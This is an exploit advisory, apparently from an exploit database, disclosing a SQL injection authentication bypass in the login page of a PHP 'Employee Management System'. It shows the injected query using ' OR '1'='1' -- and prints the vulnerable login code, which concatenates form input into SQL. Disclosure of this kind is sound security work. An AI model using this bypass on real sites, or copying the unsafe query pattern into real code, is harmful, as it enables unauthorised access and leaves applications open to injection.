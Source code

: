 ```yaml
---
title: Employee Management System 1.0 SQL Injection
published: true
---
```


- Exploit Title: Employee Management System - SQL Injection
- Google Dork: N/A
- Application: Employee Management System
- Date: 19.02.2024
- Bugs: SQL Injection
- Exploit Author: SoSPiro
- Vendor Homepage: https://www.sourcecodester.com/
- Software Link: https://www.sourcecodester.com/php/16999/employee-management-system.html
- Version: N/A
- Tested on: Windows 10 64 bit Wampserver
- CVE : N/A

* * *


### Vulnerability Description:

In your code, there is a potential SQL injection vulnerability due to directly incorporating user-provided data into the SQL query used for user login. This situation increases the risk of SQL injection attacks where malicious users may input inappropriate data to potentially harm your database or steal sensitive information.


### Proof of Concept (PoC):

An example attacker could input the following into the email field instead of a valid email address:

In this case, the SQL query would look like:

```sql
SELECT * FROM users WHERE email='' OR '1'='1' --' AND password = '' AND status = 'Active'
```

As `"1=1"` is always true, the query would return positive results, allowing the attacker to log in.


### Vulnerable code section:
* * *
```planetext
employee/Admin/login.php
```


```php
<?php
session_start();
error_reporting(1);
include('../connect.php');

//Get website details
$sql_website = "select * from website_setting"; 
$result_website = $conn->query($sql_website);
$row_website = mysqli_fetch_array($result_website);


if(isset($_POST['btnlogin'])){


//Get Date
date_default_timezone_set('Africa/Lagos');
$current_date = date('Y-m-d h:i:s');


$email = $_POST['txtemail'];
$password = $_POST['txtpassword'];
$status = 'Active';


 $sql = "SELECT * FROM users WHERE email='" .$email. "' and password = '".$password."'  and status = '".$status."'";
  $result = mysqli_query($conn, $sql);

if (mysqli_num_rows($result) > 0) {
  // output data of each row
 ($row = mysqli_fetch_assoc($result));
   $_SESSION["email"] = $row['email'];
   $_SESSION["password"] = $row['password'];
 $_SESSION["phone"] = $row['phone'];
    $firstname = $row['firstname'];
     $_SESSION["firstname"] = $row['firstname'];

     $fa = $row['2FA'];

  }
```